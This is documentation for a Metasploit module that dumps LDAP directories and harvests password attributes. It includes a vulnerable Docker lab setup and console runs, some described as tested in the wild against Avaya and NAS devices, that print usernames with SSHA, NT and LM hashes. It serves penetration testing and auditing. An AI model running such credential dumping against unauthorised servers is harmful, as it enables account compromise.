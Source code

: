 ## Vulnerable Application

### Description

This module uses an LDAP connection to dump data from LDAP server
using an anonymous or authenticated bind.
Searching for specific attributes it collects user credentials.

### Setup

Tested in the wild.

You may eventually setup an intentionally insecure OpenLDAP server in docker.
The below OpenLDAP server does not have any ACL, therefore the hashPassword
attributes are readable by anonymous clients.

```
$ git clone https://github.com/HynekPetrak/bitnami-docker-openldap.git
$ cd bitnami-docker-openldap
$ docker-compose up -d
Creating bitnami-docker-openldap_openldap_1 ... done

msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 auxiliary(gather/ldap_hashdump) > set RPORT 1389
RPORT => 1389
msf5 auxiliary(gather/ldap_hashdump) > options

Module options (auxiliary/gather/ldap_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BASE_DN                     no        LDAP base DN if you already have it
   BIND_DN                     no        The username to authenticate to LDAP server
   BIND_PW                     no        Password for the BIND_DN
   PASS_ATTR  userPassword     yes       LDAP attribute, that contains password hashes
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      1389             yes       The target port
   SSL        false            no        Enable SSL on the LDAP connection
   USER_ATTR  dn               no        LDAP attribute, that contains username


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/ldap_hashdump) >

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against 127.0.0.1

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=example,dc=org
[*] Dumping LDAP data from server at 127.0.0.1:1389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200801220435_default_127.0.0.1_LDAPInformation_704646.txt
[*] Searching for attribute: userPassword
[*] Taking dn attribute as username
[+] Credentials found: cn=user01,ou=users,dc=example,dc=org:password1
[+] Credentials found: cn=user02,ou=users,dc=example,dc=org:password2
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) >

```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the LDAP server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to take the user name from. Defaults to DN, however you may
wish to change it UID, name or similar.

### PASS_ATTR

LDAP attribute to take the password hash from. Defaults to userPassword,
some LDAP server may use different attribute, e.g. unixUserPassword,
sambantpassword, sambalmpassword.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf5 > use auxiliary/gather/ldap_hashdump
msf5 auxiliary(gather/ldap_hashdump) > options

Module options (auxiliary/gather/ldap_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BASE_DN                     no        LDAP base DN if you already have it
   PASS_ATTR  userPassword     yes       LDAP attribute, that contains password hashes
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      389              yes       The target port
   SSL        false            no        Enable SSL on the LDAP connection
   USER_ATTR  dn               no        LDAP attribute, that contains username


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121633_default_[redacted_ip_address]_LDAPInformation_716210.txt
[*] Searching for attribute: userPassword
[*] Taking dn attribute as username
[+] Credentials found: uid=cust,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: uid=admin,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121718_default_[redacted_ip_address]_LDAPInformation_712562.txt
[*] Searching for attribute: userPassword
[*] Taking uid attribute as username
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) >
```

### NASDeluxe - NAS with Samba LM/NTLM hashes

```
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > set PASS_ATTR sambantpassword
PASS_ATTR => sambantpassword
msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201006_default_[redacted_ip_address]_LDAPInformation_026574.txt
[*] Searching for attribute: sambantpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:209C6174DA490CAEB422F3FA5A7AE634
[+] Credentials found: joe:58E8C758A4E67F34EF9C40944EB5535B
[*] Auxiliary module execution completed

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201731_default_[redacted_ip_address]_LDAPInformation_427417.txt
[*] Searching for attribute: sambalmpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:F0D412BD764FFE81AAD3B435B51404EE
[+] Credentials found: joe:3417BE166A79DDE2AAD3B435B51404EE
[*] Auxiliary module execution completed
```
